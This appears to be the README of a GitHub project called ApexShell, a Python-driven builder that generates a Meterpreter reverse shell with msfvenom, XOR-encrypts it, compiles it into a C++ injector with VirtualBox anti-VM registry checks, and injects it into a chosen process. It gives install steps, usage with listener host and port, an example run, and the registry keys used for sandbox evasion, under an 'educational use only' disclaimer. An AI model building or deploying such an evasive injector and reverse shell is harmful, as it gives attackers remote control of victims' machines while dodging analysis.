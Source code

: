 # ApexShell

## Purpose
**ApexShell** is an educational tool demonstrating process injection, XOR encryption, and VirtualBox anti-VM techniques. **For educational use only in authorized environments.** Unauthorized use is illegal.

## Disclaimer
Use only on systems you own or have explicit permission to test. The developers are not liable for misuse.

## Project Structure
```
APEXSHELL
├── build/
│   └── hack.bin                  # Generated raw payload
├── src/
│   ├── injector.cpp              # Process injection code
│   └── temp_secure_injector.cpp  # Temporary C++ file
└── ApexShell.py                  # Payload generation script
```

## Features
- Generates Windows x64 Meterpreter reverse shell with `msfvenom`.
- Encrypts payload with XOR.
- Detects VirtualBox via registry checks.
- Injects payload using `NtCreateThreadEx`.

## Prerequisites
- Python 3.x
- Metasploit Framework (`msfvenom`)
- MinGW-w64 (`x86_64-w64-mingw32-g++`)

## Installation
1. Clone/download the project.
   ```bash
   git clone https://github.com/iisl4r/ApexShell.git
   ```
2. Install Metasploit and MinGW-w64:
   ```bash
   sudo apt-get install mingw-w64 metasploit-framework 
   ```

## Usage
```bash
python ApexShell.py -l <LHOST> -p <LPORT> [-o <OUTPUT_EXE>]
```
- `-l, --lhost`: Listening host IP (required).
- `-p, --lport`: Listening port (required).
- `-o, --output`: Output executable (default: `secureshell.exe`).
- `-h, --help`: Show help.

### Example
```bash
python ApexShell.py -l 192.168.1.100 -p 4444 -o build/myshell.exe
```

Run injector:
```bash
.\myshell.exe <PID>
```

## How It Works
1. **Payload Generation**: Creates and encrypts reverse shell with XOR.
2. **Compilation**: Embeds payload/key into C++ template and compiles.
3. **Injection**: Injects payload into target process with anti-VM checks.

## Anti-VM Checks
Detects VirtualBox via:
- `HKEY_LOCAL_MACHINE\HARDWARE\ACPI\FADT\VBOX__`
- `SystemProductName` and `BiosVersion` in `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SystemInformation`

## Troubleshooting
- **msfvenom not found**: Install Metasploit.
- **Compilation errors**: Verify MinGW-w64 setup.
- **Injector fails**: Check PID.

## Educational Goals
Learn:
- Process injection (`VirtualAllocEx`, `NtCreateThreadEx`).
- Payload generation with `msfvenom`.
- XOR encryption.
- Anti-VM registry checks.

## Warning
**Unauthorized use is illegal.** Test only in authorized environments.
